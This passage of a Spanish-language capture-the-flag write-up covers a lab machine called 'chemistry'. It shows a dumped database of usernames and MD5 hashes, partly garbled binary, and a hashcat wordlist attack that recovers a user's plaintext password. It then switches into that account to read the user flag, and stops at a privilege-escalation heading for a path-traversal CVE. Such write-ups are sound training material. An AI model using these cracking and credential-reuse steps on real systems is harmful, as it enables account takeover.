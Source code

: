 ```bash
eusebio6cad48078d0241cca9a7b322ecd073b3)abian4e5Mtaniaa4aa55e816205dc0389591c9f82f43bbMvictoriac3601ad2286a4293868ec2a4bc606ba3)Mpeter6845c17d298d95aa942127bdad2ceb9b*Mcarlos9ad48828b0955513f7cf0f7f6510c8f8*Mjobert3dec299e06f7ed187bac06bd3b670ab2*Mrobert02fcf7cfc10adc37959fb21f06c6b467(Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'Mapp197865e46b878d9e74a0346b6d59886a)Madmin2861debaf8d99436a10ed6f75a252abf
a��x����a�l�����__�
gzzcoo
kristeaxel
fabian
gelacia
eusebio
tania	
victoriapeter
carlos
jobert
roberrosaapp
```

### Cracking hashes

Procederemos a crackear los hashes obtenidos, y verificamos que logramos crackear el hash del usuario `rosa` y obtenemos sus credenciales en texto plano.

```bash
❯ hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt
...[snip]...
63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados
...[snip]...
```

Desde la consola que ya disponemos acceso, procederemos a migrar al usuario `rosa` accediendo con las credenciales obtenidas, verificamos que ganamos del acceso correctamente.

```bash
adminapp@chemistry:~/instance$ su rosa
Password: 

rosa@chemistry:/home/app/instance$ whoami
rosa
```

También verificamos que hemos ganado el acceso a la flag de **user.txt**

```bash
rosa@chemistry:~$ pwd
/home/rosa

rosa@chemistry:~$ cat user.txt 
a65886ac7ef2********************
```

## Privilege Escalation

### Exploitaition Path Traversal (CVE-2024-23334)
